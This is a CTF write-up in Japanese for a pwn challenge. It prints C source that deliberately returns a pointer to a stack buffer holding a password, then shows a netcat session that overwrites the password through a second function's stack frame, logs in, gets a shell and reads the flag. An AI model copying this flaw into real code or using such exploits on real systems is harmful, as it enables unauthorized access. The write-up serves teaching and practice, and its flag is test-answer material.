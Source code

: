 # dead_or_alive:Pwn:80pts
あなたは闇サイトの運営者だ。いつも生きるか死ぬかの世界で生きている。 そこで、特殊なログインフォームを作って知り合いにだけ教えることにした。 一見するとただ挨拶するだけのプログラムに見えるが、ログインするとそこには...  
```
nc 27.133.155.191 30005
```
[dead_or_alive](dead_or_alive)　　　　[main.c](main.c)　　　　[Makefile](Makefile)　　　　[password.txt](password.txt)  

# Solution
以下のmain.cが配られる。  
```c:main.c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<unistd.h>

char* get_secret_password() {
	char password[0x1000]; // I can get very very long password!!
	
	FILE *fp = fopen("./password.txt", "r");
	if(fp == NULL) {
		puts("password.txt not found.");
		exit(0);
	}
	fgets(password, 0x1000, fp);
	char* ret = password;

	return ret;
}

void login(char *password) {
	char input[512];
	printf("Input your password:");
	fgets(input, 512, stdin);

	if(strcmp(input, password) == 0) {
		puts("You logged in!");
		system("/bin/sh");
	}
}

void hello() {
	char name[0x1000];
	
	puts("Tell me your name!");
	fgets(name, 0x1000, stdin);

	printf("Hello %s\n", name);
}

int menu() {
	int ret;

	printf(
			"0: Hello\n"
			"1: Login\n"
			);

	scanf("%d%*c", &ret);

	return ret;
}

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(60);
	
	char* pass = get_secret_password();
	while(1) {
		int option = menu();
		if(option == 0) {
			hello();
		} else if(option == 1) {
			login(pass);
		}
	}
}
```
`get_secret_password()`により局所変数`char password[0x1000];`のポインタが保持され続ける。  
保持されているポインタの場所に`hello()`で新たな局所変数`char name[0x1000];`をとることで、パスワードを任意の値に書き変えることができる。  
以下のように行う。  
```bash
$ nc 27.133.155.191 30005
0: Hello
1: Login
0
Tell me your name!
NEW PASS
Hello NEW PASS

0: Hello
1: Login
1
Input your password:NEW PASS
You logged in!
ls
dead_or_alive
entry.sh
flag.txt
password.txt
cat flag.txt
xm4s{welc0me_t0_undergr0und}
```
flagが読み取れた。  

## xm4s{welc0me_t0_undergr0und}